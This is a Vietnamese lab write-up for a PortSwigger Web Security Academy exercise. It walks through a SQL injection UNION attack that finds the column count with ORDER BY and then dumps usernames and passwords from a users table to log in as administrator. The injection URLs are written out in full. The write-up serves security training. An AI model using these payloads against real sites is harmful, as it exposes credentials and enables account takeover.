 # Lab: SQL injection UNION attack, retrieving data from other tables

### Link: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
![Require of Lab](/Images/sql5.1.png)

Yêu cầu của bài lab là sử dụng kiểu tấn công SQL UINON để lấy toàn bộ username và password, sau đó sử dụng thông tin của user `administrator` để đăng nhập 

Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Corporate gifts`, `Food & Drink`, `Gifts` và `Lifestyle`, `Pets`....
![Website](/Images/sql5.2.png)

Tương tự như các bài lab trước về kỹ thuật tấn công này, đầu tiên ta phải xác định số cột được trả về bằng cách thay đổi URL bằng cách thêm vào chuỗi `'+ORDER+BY+2--`

> https://ace61f0c1ee40448c0a9142e007d0036.web-security-academy.net/filter?category=Pets%27+ORDER+BY+2--

![Product of Pets order by 2](/Images/sql5.4.png)

Tiếp tục thay đổi URL bằng chuỗi `'+ORDER+BY+3--` và nhận được thông báo lỗi, từ đó xác định số cột được trả về là 2.
> https://ace61f0c1ee40448c0a9142e007d0036.web-security-academy.net/filter?category=Pets%27+ORDER+BY+3--

![Product of Pets order by 3](/Images/sql5.5.png)

Sử dụng kỹ thuật UNION để lấy tất cả thông tin của những user trong bảng users như sau
> https://ace61f0c1ee40448c0a9142e007d0036.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+username,password+FROM+users--

![Info of users](/Images/sql5.6.png)
Ta có thể thấy toàn bộ thông tin của user được hiển thị trên màn hình và thấy thông tin của user `administrator` có password là `1ponyx0xb5w0cyqq44r5`

Thực hiện đăng nhập bằng cách sử dụng thông tin của user `administrator`
![Login](/Images/sql5.7.png)

Tadaaaa, hoàn thành rồi nè
![Result](/Images/sql5.8.png)



<div align="right"> <i> Ngày 21 tháng 01 năm 2021 </i> </div>
